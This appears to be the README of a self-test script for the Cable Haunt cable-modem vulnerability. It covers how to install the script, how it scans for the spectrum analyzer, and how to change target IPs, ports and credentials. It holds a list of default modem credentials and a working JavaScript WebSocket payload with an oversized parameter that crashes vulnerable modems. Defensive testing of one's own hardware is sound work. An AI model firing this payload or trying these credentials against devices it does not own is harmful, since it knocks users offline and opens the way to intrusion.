 # Cable Haunt Test Script
​
This is a script for automatically testing whether your modem is vulnerable for the [Cable Haunt Vulnerability](https://cablehaunt.com). Per default the script will test for the spectrum analyzer with the following parameter, please see below why and how to change it

```
Target IP: '192.168.100.1'
Port Range: 23 - 10000
Test Credentials: [None, "admin:password", 'askey:askey',  "user:Broadcom", 'Broadcom:Broadcom', 'broadcom:broadcom', 'spectrum:spectrum', 'admin:bEn2o#US9s']
```

<p align="center">
<b>ONLY RUN THIS CODE ON HARDWARE YOU OWN</b>​
</p>

False negatives are possible via the script and you could be still be vulnerable even if the script fails. If you find the spectrum analyser manually you can also test whether it is vulnerable by running the following javascript in your browsers console while having the spectrum analyzer open and logged in.
```
exploit = '{"jsonrpc":"2.0","method":"Frontend::GetFrontendSpectrumData","params":{"coreID":0,"fStartHz":' + 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA' +',"fStopHz":1000000000,"fftSize":1024,"gain":1},"id":"0"}'
console.log(exploit)


var socket = new WebSocket("ws://192.168.100.1:8080/Frontend", 'rpc-frontend') //Or some other ip and port!!!

socket.onopen = function(e) {
    socket.send(exploit)
};
```
If this crashes your modem, you are vulnerable.
​
## How to run it
First install [pipenv](https://github.com/pypa/pipenv).

```
pipenv install
```

```
pipenv run python test.py
```

## How to it works
The script automatically scans your network to find the spectrum analyzer and tries to establish a connection to the WebSocket. The script will test if the modem rejects requests from an external origin, by setting the header parameters similar to how a browser or other modern client would. If the connection is established, the spectrum analyzer can be reached indirectly from outside the local network and is, at least partly, vulnerable. The script will afterwards, with your permission, send a specially crafted package that reboots the modem if vulnerable. If this happens, the modem is completely vulnerable.
​
## How to change IP and ports
If the script does not find the spectrum analyzer, it could mean that it is not looking at the correct IPs or ports. We have only seen the Spectrum Analyzer being hosted on "192.168.100.1" and "192.168.0.1", which is rarely the default gateway, and the script therefore only scans these IPs per default. However, it is possible that a specific ISP or manufacturer has changed this and we would very much like to know if it happens. The IPs and port range are set as variables in the top of the script so if you want to test more than the default, please change line 20 and 21

```
targets = ['192.168.100.1', '192.168.0.1']
portRange = range(23, 65535)
```

to for instance

```
targets = ['192.168.100.1', '192.168.0.1', '192.168.1.1']
portRange = range(0, 65535)
```

Remember that the more you add, the longer the port scan will take.

## How to change credentials
The spectrum analyzer is sometimes password protected. This is changeable by the ISP and manufacturer and may therefore vary. The script uses a list of default credentials seen in the wild, that are all tried against the endpoints. If the script returns a "401: Unauthorized" on one of the possible target ports, it could mean that your spectrum analyzer uses new unknown credentials. Remember to use common sense here, for instance, you would probably get a 401 on port 80 on your default gateway since this the user interface. You add to the list of credentials that are tested on line 21 of the script.

## Disclaimer
This tool should be used for verification purposes only, and should not be used on equipment you do not own or otherwise is not allowed to destroy.
There are absolutely no guarantees that this tool will detect any vulnerabilities, nor that it will not damage your equipment or cause damage in some other way. USE AT YOUR OWN RISK.
​
## Other Resources
- [**The Cable Haunt website**](https://cablehaunt.com)
- [**Download the technical report**](https://github.com/Lyrebirds/Cable-Haunt-Report/releases/latest/download/report.pdf)
- [**Sagemcom F@st exploit POC**](https://github.com/Lyrebirds/sagemcom-fast-8690-exploit)
